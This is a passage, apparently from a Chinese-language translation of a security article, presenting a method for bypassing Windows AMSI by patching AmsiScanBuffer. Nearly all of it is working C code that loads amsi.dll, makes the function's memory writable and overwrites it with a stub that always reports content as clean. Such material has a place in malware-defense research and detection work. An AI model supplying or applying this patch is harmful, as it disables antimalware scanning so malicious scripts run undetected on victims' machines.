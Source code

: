 ```
    }
    return disabled;
}
```

第三种绕过 AMSI 机制的方法（代码补丁方法 2）
--------------------------

Tal Liberman 建议覆盖 AmsiScanBuffer 的 prolog 字节，以便使其返回 1。下面的代码也会对该函数执行覆盖操作，以使其在 CLR 扫描每个缓冲区时都返回 AMSI_RESULT_CLEAN 和 S_OK。

```
// fake function that always returns S_OK and AMSI_RESULT_CLEAN
static HRESULT AmsiScanBufferStub(
  HAMSICONTEXT amsiContext,
  PVOID        buffer,
  ULONG        length,
  LPCWSTR      contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT  *result)
{
    *result = AMSI_RESULT_CLEAN;
    return S_OK;
}

static VOID AmsiScanBufferStubEnd(VOID) {}

BOOL DisableAMSI(VOID) {
    BOOL    disabled = FALSE;
    HMODULE amsi;
    DWORD   len, op, t;
    LPVOID  cs;

    // load amsi
    amsi = LoadLibrary("amsi");

    if(amsi != NULL) {
      // resolve address of function to patch
      cs = GetProcAddress(amsi, "AmsiScanBuffer");

      if(cs != NULL) {
        // calculate length of stub
        len = (ULONG_PTR)AmsiScanBufferStubEnd -
          (ULONG_PTR)AmsiScanBufferStub;

        // make the memory writeable
        if(VirtualProtect(
          cs, len, PAGE_EXECUTE_READWRITE, &op))
        {
          // over write with code stub
          memcpy(cs, &AmsiScanBufferStub, len);

          disabled = TRUE;

          // set back to original protection
          VirtualProtect(cs, len, op, &t);
        }
      }
    }
    return disabled;
}
```
